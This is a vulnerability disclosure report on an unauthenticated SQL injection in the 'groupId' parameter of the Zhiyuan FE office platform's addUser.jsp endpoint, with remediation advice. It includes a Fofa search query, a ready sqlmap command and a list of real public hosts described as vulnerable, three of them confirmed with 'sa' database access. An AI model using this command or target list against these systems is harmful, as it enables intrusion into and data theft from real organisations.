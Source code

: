 # Vulnerability Title
Unauthorized SQL Injection Vulnerability in `security_addUser.jsp` Interface of Zhiyuan Interconnect FE Collaborative Office Platform

---

# Vulnerability Description
The FE Collaborative Office Platform developed by Beijing Zhiyuan Interconnect Software Co., Ltd. contains an SQL injection vulnerability in the `/security/addUser.jsp` interface. The input parameters are not properly filtered, allowing attackers to craft malicious requests that trigger the SQL injection vulnerability. Successfully exploiting this vulnerability can lead to the leakage of sensitive database information (such as user credentials and system configurations). Some verified affected systems have a database user with `sa` (system administrator) privileges, representing a high risk.

---

# Affected Products
+ **Affected Product**: Zhiyuan Interconnect FE Collaborative Office Platform (Note: Not the Feiqi Interconnect products).
+ **Verification Feature**: Potentially affected assets can be identified by searching `app="Zhiyuan Interconnect-FE"` using network space mapping tools like Fofa.

---

# Vulnerability Verification and Reproduction
## Vulnerable Location
```plain
http://[Target IP]:9090/security/addUser.jsp?groupId=1*
```

## Reproduction Tool
Automated detection with `sqlmap`:

```bash
sqlmap -u "http://Target IP:9090/security/addUser.jsp?groupId=1" --risk=3 --level=5
```

## Verified Cases
1. **Case 1**: `http://125.91.119.208:9090`
    - sqlmap confirms the vulnerability, user is `sa`![](https://cdn.nlark.com/yuque/0/2025/png/38476061/1740238572202-99e329b3-bd19-4c56-b6c2-a44dae13ca8b.png)
    - Asset Proof ![](https://cdn.nlark.com/yuque/0/2025/png/38476061/1740238669827-795088ed-7453-46a7-9fdf-31a4add49046.png)
2. **Case 2**: `http://oa.avit.com.cn:9090`
    - sqlmap confirms the vulnerability, user is `sa`![](https://cdn.nlark.com/yuque/0/2025/png/38476061/1740238689161-33c95786-5c38-4baa-91b3-d7805bccdacd.png)
    - Asset Proof ![](https://cdn.nlark.com/yuque/0/2025/png/38476061/1740238702094-12c13534-69b6-4cbd-92a7-4b7dca41276c.png)
3. **Case 3**: `http://218.22.206.38:9090`
    - sqlmap confirms the vulnerability, user is `sa`![](https://cdn.nlark.com/yuque/0/2025/png/38476061/1740238712915-9934175f-3444-4b91-87b3-5f794b9f1a0f.png)
    - Asset Proof ![](https://cdn.nlark.com/yuque/0/2025/png/38476061/1740238723703-c5645b32-5089-4b1b-b344-dd9b3451e6d8.png)

---

# Proof of Vulnerability
## Vendor Information
+ **Vendor Name**: 北京致远互联软件股份有限公司
+ **Vendor English Name**: BeiJing Seeyon Internet Software Corp.
+ **Vendor Website**: [www.seeyon.com](https://www.seeyon.com/)
+ **Vendor Email**: [zhangxiu@seeyon.com](mailto:zhangxiu@seeyon.com)
+ **Registered Capital**: 115.158439 million RMB
+ ![](https://cdn.nlark.com/yuque/0/2025/png/38476061/1740239688897-2baca77d-ce5c-42ca-820a-30439b29d463.png)

---

## Technical Details
+ **Technical Details**: The `groupId` parameter is not filtered, and attackers can inject characters (such as `1*`) to trigger database errors or blind injections.

---

# Remediation Suggestions
1. **Input Filtering**: Implement strict type checks (e.g., force conversion to integers) and filter special characters for parameters such as `groupId`.
2. **Prepared Statements**: Use parameterized queries instead of dynamically concatenating SQL queries.
3. **Least Privilege**: Reduce the privileges of the database connection accounts and avoid using high-privilege accounts like `sa`.
4. **Patch and Upgrade**: Contact Zhiyuan Interconnect for security updates or temporary fixes.

---

# Disclaimer
This report is intended for technical research and vulnerability remediation purposes only. It is prohibited for illegal use. Exploiting vulnerabilities to attack others' systems will result in legal consequences.

---

# Appendix
Other affected assets:

```plain
http://121.33.38.234:9090
http://218.22.206.38:9090
http://52.130.254.228:9090
http://218.17.117.55:9090
http://183.247.156.247:9090
http://121.31.124.114:9090
http://58.247.134.2:9090
http://219.146.165.142:9090
http://183.63.225.100:9090
http://120.82.178.130:9090
http://oa1.longlive.cn:9090
http://125.91.119.208:9090
http://oa.avit.com.cn:9090
http://14.145.142.223:9090
http://183.59.159.122:9090
https://221.7.151.135
```

